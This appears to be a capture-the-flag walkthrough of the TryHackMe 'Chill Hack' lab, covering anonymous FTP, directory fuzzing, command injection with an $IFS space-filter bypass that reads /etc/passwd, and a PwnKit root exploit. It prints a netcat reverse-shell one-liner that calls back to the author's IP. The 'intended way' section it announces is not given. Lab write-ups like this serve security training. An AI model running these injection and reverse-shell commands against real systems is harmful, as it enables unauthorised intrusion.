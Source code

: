 ### Chill hack
### Difficulty = easy
### Os = linux
### [LINK](https://tryhackme.com/room/chillhack)

Hi guys ,
<br> let's root another fun box today 🔥🔥.
<br> let's get started🤞🤞.

<h2>Nmap scan</h2>

![nmap](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/a3a34c1a-56e5-4c8b-b7ac-b05149c8fa2b)

As you can see we have 3 open ports which port 21(FTP) Allows anonymous login.
<br> so let's enumerate the port further by connecting to the ftp server using "anonymous" as username and hitting enter to get logged in. Then download the file on the server to your local machine

![anonymousftp](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/49303fe2-cdba-459b-b3d2-4a7476fb7ecc)
<br> so, let's check the content of the downloaded file

![note](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/e36502ad-edc5-4183-9125-e2347c83f7ee)

the file contains hint to the box.

<br> let's proceed further by fuzzing for directories using ffuf
~~~
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.10.85.120/FUZZ
~~~

![fuzz](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/e6bce9a6-9f52-4e85-975a-9f959b1a6b73)

got the directory */secret*
<br> visiting the directory we can tell that the box is about command injection 🙂🙂

![http_command_inj_page](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/e6568236-8929-4d80-ae25-fff0fd4ab7ec)
<br> so, you can confirm it by executing the **id** command

proceeding further we noticed that our commands ain't working due to some kinda filters
 
 ![filter](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/01e4e271-345e-4135-b128-838ec0d753d5)

i found out that spaces get filtered and thereby triggering the alert.

<br> so, let's bypass the filter using the "internal field separator" $IFS
```
cat$IFS/etc/passwd should work
```

![filer_bypass](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/8ab2e700-3c52-440b-9e9a-aa732477c14c)

dope! it has been bypassed. which means we have to replace the spaces with $IFS 

<br> let's pop our sweet reverse shell by starting netcat listener and executing this commands.
```
rm$IFS/tmp/f;mkfifo$IFS/tmp/f;cat$IFS/tmp/f|/bin/sh -i 2>&1|nc 10.9.3.145 1337 >/tmp/f
```
![rev-shell](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/760a62df-4925-44ae-b577-07654cb8fa56)

<br> cool we have a shell xD
<br> so, stabilize the shell.

<h2>Privilege escalation</h2>
Enumeration shows that the machine is vulnerable to pwnkit
using
```uname -a```
to confirm
so, let's move the  pwnkit exploit to the box  and run to gain root [link](https://github.com/ly4k/PwnKit)

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/1c570d7a-70dd-4fba-893b-2b5e6ecc9b9e)
we able to cat the user and root flag

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/527f7f6d-a1fe-4aa2-95e5-c4ef69df87d0)

that's the unintended way to gain root




so let's go the intended way:

bankai senbonzakura kagyeoshi lol 🌚😂

<a href="https://0xvenus.github.io" style="display:inline-block; padding:8px 12px; background:#0078d4; color:#fff; text-decoration:none; border-radius:4px;">
    ⬅ Back to Homepage
</a>



